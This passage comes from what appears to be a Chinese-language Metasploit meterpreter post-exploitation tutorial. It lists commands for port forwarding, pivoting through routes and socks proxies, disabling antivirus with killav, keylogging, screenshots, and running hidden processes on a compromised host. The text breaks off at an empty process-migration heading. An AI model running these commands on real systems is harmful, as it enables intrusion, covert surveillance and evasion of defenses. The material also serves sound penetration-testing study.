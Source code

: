     portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令的参数.
    ```bash
    portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.3 的 3389 端口转发到本地的 2222 端口.
    -l:本地监听端口
    -r:内网目标的 ip
    -p:内网目标的端口
    ```

- **pivot**

    pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测.
    ```bash
    route add <ip> <mask> <session id>      # 添加一个路由
    route print

    如果其它程序需要访问这个内网环境,就可以建立 socks 代理
    msf 提供了3个模块用来做 socks 代理.
    auxiliary/server/socks4a
    auxiliary/server/socks5
    auxiliary/server/socks_unc

    use auxiliary/server/socks4a
    SRVHOST:监听的 ip 地址,默认为 0.0.0.0,一般不需要更改.
    SRVPORT:监听的端口,默认为 1080.
    直接运行 run 命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用.
    ```

### 权限维持

**关闭防病毒软件**
```bash
run killav
```

**截屏**

`screenshot`

**键盘记录**
```bash
keyscan_start   # 开启键盘记录功能
keyscan_dump    # 显示捕捉到的键盘记录信息
keyscan_stop    # 停止键盘记录功能
```

**执行程序**
```bash
execute -f <path> [options] # 在目标主机上执行 exe 文件
-H : 创建一个隐藏进程
-a : 传递给命令的参数
-i : 跟进程进行交互
-m : 从内存中执行
-t : 使用当前伪造的线程令牌运行进程
-s : 在给定会话中执行进程
```

**进程迁移**
